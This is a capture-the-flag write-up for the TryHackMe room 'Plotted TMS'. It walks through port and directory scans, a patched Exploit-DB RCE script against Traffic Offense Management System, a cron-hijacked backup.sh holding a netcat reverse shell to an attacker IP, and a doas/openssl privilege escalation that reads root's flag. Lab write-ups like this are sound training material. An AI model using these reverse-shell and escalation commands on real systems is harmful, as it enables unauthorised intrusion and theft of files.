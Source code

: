 ```yaml
---
layout: post
title:  "Plotted TMS"
categories: [tryhackme]
tags: [linux,TMS,RCE,doas,openssl,crontab]
---
```


You can find this machine here : https://tryhackme.com/room/plottedtms

### Port Scan

```bash
┌──(kali㉿Zeus)-[~]
└─$ sudo nmap -sS -sV 10.10.1.194   

PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
445/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

### Directory Scan Port 445

```bash
┌──(kali㉿Zeus)-[~]
└─$ dirb http://10.10.1.194:445           
<snip>
==> DIRECTORY: http://10.10.1.194:445/management/
==> DIRECTORY: http://10.10.1.194:445/management/admin/
==> DIRECTORY: http://10.10.1.194:445/management/assets/
==> DIRECTORY: http://10.10.1.194:445/management/build/
==> DIRECTORY: http://10.10.1.194:445/management/classes/
==> DIRECTORY: http://10.10.1.194:445/management/database/
<snip>
```

### Traffic Offense Management System - Remote Code Execution (RCE) (Unauthenticated)

![image]( /assets/img/plottedtms/2.PNG)

![image]( /assets/img/plottedtms/3.PNG)

```bash
locate php/webapps/50221.py
cp /usr/share/exploitdb/exploits/php/webapps/50221.py .
2to3 -w 50221.py
```

There was an error with the script so i edit the line 107

- before

```python
request = requests.post(find_shell.get("src") + "?cmd=" + cmd, data={'key':'value'}, headers=headers)
```

- after

```python
request = requests.post("http://10.10.1.194:445"+find_shell.get("src") + "?cmd=" + cmd, data={'key':'value'}, headers=headers)
```

### RCE Confirmed 

![image]( /assets/img/plottedtms/4.PNG)

### Privileges Escalation - User Owned

![image]( /assets/img/plottedtms/5.PNG)

![image]( /assets/img/plottedtms/6.PNG)

- Change the backup.sh content 

```bash
rm -rf backup.sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.18.45.56 5555 >/tmp/f" > backup.sh
chmod 777 backup.sh
chmod +x backup.sh
```

![image]( /assets/img/plottedtms/7.PNG)

### Privileges Escalation - Root Owned

```bash
plot_admin@plotted:~$ find / -perm -u=s -type f 2>/dev/null
<snip>
/usr/bin/doas
<snip>
```

- Resource : https://book.hacktricks.xyz/linux-unix/privilege-escalation#doas
- Resource : https://gtfobins.github.io/gtfobins/openssl/#file-read

```bash
permit nopass plot_admin as root cmd openssl
```

![image]( /assets/img/plottedtms/8.PNG)


```bash
LFILE=/root/root.txt
doas -u root openssl enc -in "$LFILE"
```


![image]( /assets/img/plottedtms/9.PNG)